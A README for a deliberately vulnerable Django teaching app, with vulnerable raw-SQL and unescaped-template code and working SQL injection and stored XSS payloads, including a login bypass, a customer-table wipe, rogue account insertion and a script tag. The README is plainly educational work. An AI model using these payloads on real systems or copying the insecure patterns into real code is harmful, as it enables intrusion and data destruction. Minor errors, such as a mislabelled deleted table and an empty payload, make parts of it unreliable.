

# 🚨 Communication LTD Unsecured - Vulnerability Demonstration Project

   

## ⚠️ **CRITICAL WARNING**

This is the **deliberately insecure version** of the Communication LTD project, designed to demonstrate common web application vulnerabilities and their exploitation techniques.

---

## 📋 **Table of Contents**

- [🎯 Vulnerabilities](#-vulnerabilities)
- [🏗️ Architecture](#️-architecture)
- [🚀 Quick Start](#-quick-start)
- [💉 SQL Injection Demonstrations](#-sql-injection-demonstrations)
- [🚨 XSS Attack Demonstrations](#-xss-attack-demonstrations)
- [📖 Detailed Setup](#-detailed-setup)
- [📚 Vulnerability Documentation](#-vulnerability-documentation)
- [🛠️ Technology Stack](#️-technology-stack)

---

## 🎯 **Vulnerabilities**

### 💉 **SQL Injection Vulnerabilities**
- **Authentication Bypass** in login system
- **Data Destruction** via registration form
- **Data Manipulation** through customer management
- **Account Takeover** in password reset

### 🚨 **XSS Vulnerabilities**
- **Stored XSS** in customer names and data
- **Session Hijacking** through malicious scripts
- **Script Injection** in all user input fields
- **DOM Manipulation** attacks

### 🔓 **Missing Security Controls**
- **No Input Validation** - Accepts any user input
- **No Output Escaping** - Uses dangerous `|safe` filters
- **No Password Policy** - Weak passwords allowed
- **No Brute Force Protection** - Unlimited login attempts
- **Information Disclosure** - Exposes sensitive data

---

## 🏗️ **Architecture**

```
computer-security-Unsecured/ # Project root directory (VULNERABLE VERSION)
|-- communication_ltd/       # Main Django project settings directory
|   |-- __init__.py
|   |-- asgi.py
|   |-- config.json          # Security configuration (partially ignored)
|   |-- settings.py          # Django settings (some security disabled)
|   |-- urls.py              # URL configurations
|   +-- wsgi.py
|-- db.sqlite3               # SQLite database (vulnerable to injection)
|-- mainapp/                 # Primary Django application (VULNERABLE)
|   |-- __init__.py
|   |-- apps.py              # App configuration
|   |-- migrations/          # Database schema changes
|   |   |-- 0001_initial.py
|   |   |-- 0002_customer_alter_user_password_hash_and_more.py
|   |   |-- 0003_user_previous_password_hash1_and_more.py
|   |   |-- 0004_customer_created_by.py
|   |   +-- __init__.py
|   |-- models.py            # Database models (vulnerable structure)
|   |-- static/              # Static files
|   |   +-- mainapp_static/
|   |       +-- style.css
|   |-- templates/           # Template files (VULNERABLE TO XSS)
|   |   +-- mainapp/
|   |       |-- add_customer.html      # XSS vulnerable input forms
|   |       |-- base.html
|   |       |-- customer_list.html     # XSS vulnerable display (|safe filters)
|   |       |-- forgot_password.html   # Information disclosure
|   |       |-- home.html
|   |       |-- login.html             # SQL injection entry point
|   |       |-- register.html          # SQL injection entry point
|   |       |-- reset_password.html
|   |       |-- system.html            # XSS vulnerable dashboard
|   |       |-- user_list.html
|   |       +-- verify_reset_code.html
|   |-- tests.py
|   |-- urls.py              # URL routing (vulnerable endpoints)
|   +-- views.py             # VULNERABLE BUSINESS LOGIC
|-- manage.py
+-- system/                  # Additional Django application
    |-- __init__.py
    |-- admin.py
    |-- apps.py
    |-- migrations/
    |   +-- __init__.py
    |-- models.py
    +-- tests.py
```

### **🔗 Vulnerability Flow**


---

## 🚀 **Quick Start**

### **⚡ 1-Minute Dangerous Setup**
```bash
# Clone the vulnerable repository
git clone https://github.com/100adim/computer-security-Unsecured
cd computer-security-Unsecured

# Setting Up Virtual Environment (recommended for isolation)
python -m venv vulnerable_env
source vulnerable_env/bin/activate  # macOS/Linux
vulnerable_env\Scripts\activate     # Windows

# Install dependencies
pip install django

# Initialize vulnerable database
python manage.py makemigrations mainapp
python manage.py migrate

# Run the VULNERABLE application
python manage.py runserver 8001
```

**🌐 Access:** http://localhost:8001

**⚠️ WARNING:** This application is intentionally vulnerable!

---

## 💉 **SQL Injection Demonstrations**

### **🎯 Attack 1: Authentication Bypass**

#### **Vulnerable Code Location:**
```python
# mainapp/views.py - login_view() function
raw_query = f"""
    SELECT username, password_hash, salt 
    FROM mainapp_user 
    WHERE username = '{username}'
"""
```

#### **Attack Payload:**
```sql
Username: admin' OR '1'='1' --
Password: anything
```

#### **What Happens:**
```sql
-- Original intended query:
SELECT username, password_hash, salt FROM mainapp_user WHERE username = 'admin'

-- Malicious injected query:
SELECT username, password_hash, salt FROM mainapp_user WHERE username = 'admin' OR '1'='1' --'

-- Result: '1'='1' is always true, returns all users, bypasses authentication
```

---

### **🎯 Attack 2: Database Destruction**

#### **Vulnerable Code Location:**
```python
# mainapp/views.py - register() function
cursor.executescript(f"""
    INSERT INTO mainapp_user (username, email, password_hash, salt)
    VALUES ('{username}', '{email}', '{password_hash}', '{salt_hex}');
""")
```

#### **Attack Payload:**
```sql
Username: test-sqli','','','');DELETE FROM mainapp_customer;--
Email: test@test.com
Password: anything123
```

#### **What Happens:**
```sql
-- Intended query:
INSERT INTO mainapp_user (...) VALUES ('test', 'test@test.com', 'hash', 'salt');

-- Malicious query:
INSERT INTO mainapp_user (...) VALUES ('test-sqli','','','');DELETE FROM mainapp_customer;--', 'test@test.com', 'hash', 'salt');

-- Result: User created, then entire user table deleted!
```

---

### **🎯 Attack 3: Data Manipulation**

#### **Vulnerable Code Location:**
```python
# mainapp/views.py - add_customer() function
query = f"""
    INSERT INTO mainapp_customer (first_name, last_name, id_number, created_by)
    VALUES ('{first_name}', '{last_name}', '{id_number}','{username}');
"""
```

#### **Attack Payload:**
```sql
First Name: John'); INSERT INTO mainapp_user VALUES ('hacker', 'hacker@evil.com', 'adminpass', 'salt'); --
Last Name: Doe
ID: 123456789
```

#### **What Happens:**
```sql
-- Intended query:
INSERT INTO mainapp_customer (...) VALUES ('John', 'Doe', '123456789', 'user');

-- Malicious query:
INSERT INTO mainapp_customer (...) VALUES ('John'); INSERT INTO mainapp_user VALUES ('hacker', 'hacker@evil.com', 'adminpass', 'salt'); --', 'Doe', '123456789', 'user');

-- Result: Customer added AND new admin user created!
```

---

## 🚨 **XSS Attack Demonstrations**

### **🎯 Stored XSS Attack 1: Customer List**

#### **Vulnerable Code Location:**
```html
<!-- mainapp/templates/mainapp/customer_list.html -->
<td>{{ customer.first_name|safe }} {{ customer.last_name|safe }}</td>
<td>{{ customer.id_number|safe }}</td>
```

**⚠️ The `|safe` filter disables Django's XSS protection!**

#### **Attack Payload:**
```html
First Name: <script> alert("XSS") </script>
Last Name: Victim
ID: 999999999
```

#### **What Happens:**
1. Malicious script stored in database
2. Every user viewing customer list executes the script
3. **Persistent attack** affects all users

---

### **🎯 Stored XSS Attack 2: System Dashboard**

#### **Vulnerable Code Location:**
```html
<!-- mainapp/templates/mainapp/system.html -->

    ✅ New customer added: {{ new_customer.first_name|safe }} {{ new_customer.last_name|safe }}

```

#### **Attack Payload:**
```html
First Name: 
```

#### **What Happens:**
1. Script executes immediately on dashboard after customer creation
2. **Immediate impact** on the user who created the customer

---

## 📖 **Detailed Setup**

### **🔧 Prerequisites**
- **Python 3.8+**
- **Django 5.2**
- **SQLite** (included)
- **Ethical Use Agreement** ⚖️

---

## 📚 **Vulnerability Documentation**

### **🔗 Vulnerable Endpoints**

| Method | Endpoint | Vulnerability | Attack Vector |
|--------|----------|---------------|---------------|
| `POST` | `/login/` | SQL Injection | Authentication bypass |
| `POST` | `/register/` | SQL Injection | Data destruction |
| `POST` | `/add_customer/` | SQL Injection + XSS | Data manipulation + script injection |
| `GET` | `/customer_list/` | Stored XSS | Script execution for all users |
| `GET` | `/system/` | Stored XSS | Dashboard script execution |
| `POST` | `/forgot_password/` | Information Disclosure | Reset token exposure |
| `POST` | `/reset_password/` | SQL Injection | Account takeover |

---

## 🛠️ **Technology Stack**

### **🔧 Backend Technologies (Vulnerable Configuration)**
- **Django 5.2** - Web framework (security features disabled)
- **Python 3.8+** - Programming language
- **SQLite** - Database (vulnerable to injection)
- **Raw SQL Queries** - Direct string concatenation
- **No Input Validation** - Accepts malicious input

### **🎨 Frontend Technologies (Vulnerable Configuration)**
- **HTML5** - Markup
- **CSS3** - Styling
- **Django Templates** - Server-side rendering (XSS vulnerable)
- **`|safe` Filters** - Disables XSS protection

### **🚨 Dangerous Implementations**
- **cursor.execute()** - Raw SQL concatenation
- **cursor.executescript()** - Multiple SQL statements
- **`|safe` template filter** - Disables escaping
- **No html.escape()** - Missing input sanitization
- **No regex validation** - Accepts any characters

### **📧 Email Integration (Information Disclosure)**
- **django.core.mail** - Email functionality
- **Exposed reset codes** - Displayed in HTML
- **No token validation** - Predictable reset codes

---

## 🚀 **Deployment**

### **🌐 Local Development (Vulnerable Environment)**
```bash
# Run on different port to avoid conflicts with secure version
python manage.py runserver 8001
```

### **⚠️ Production Warning**
**NEVER DEPLOY THIS CODE TO PRODUCTION!**

This code contains intentional vulnerabilities and should only be used in isolated educational environments.

---
